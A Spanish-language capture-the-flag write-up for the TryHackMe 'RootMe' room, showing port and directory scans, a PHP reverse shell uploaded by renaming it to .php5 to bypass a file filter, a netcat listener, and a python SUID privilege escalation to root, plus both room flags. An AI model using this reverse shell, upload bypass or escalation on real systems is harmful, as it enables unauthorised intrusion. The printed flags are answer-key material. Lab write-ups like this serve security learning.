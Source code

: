 # Write Up RootMe TryHackMe

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST>
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.234.69/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.234.69/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.234.69/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.234.69/panel/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.234.69/uploads/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Si nos vamos a `/panel/` encontraremos que se pueden subir cosas, pero no permite subir `.php` que es lo que queremos, por lo que vamos hacer un `ByPass` con la extension...

> File.php

```shell
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Si lo subimos asi no nos dejara, pero cambiamos el `.php` por un `.php5` por lo que ya no lo reconoceria como un `.php` normal quedando algo tal que asi...

> File.php5

Una vez subido el archivo nos descubrio un `/uploads/` por lo que estara ahi el archivo, lo ejecutaremos desde ahi...

Estaremos a la escucha antes de darle al archivo...

```shell
nc -lvnp <PORT>
```

Una vez estando dentro de `www-data` vamos a /www/ donde estara la primera flag...

> user.txt (flag1)

```
THM{y0u_g0t_a_sh3ll}
```

Si hacemos el siguiente comando para ver los permisos `SUID` que tenemos...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Vemos que podemos ejecutar `python` como si fuera `root`...

```
266770   3580 -rwsr-sr-x   1 root     root        3665768 Aug  4  2020 /usr/bin/python
```

Por lo que haremos lo siguiente...

```shell
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Una vez hecho esto seremos root...

> root.txt (flag2)

```
THM{pr1v1l3g3_3sc4l4t10n}
```
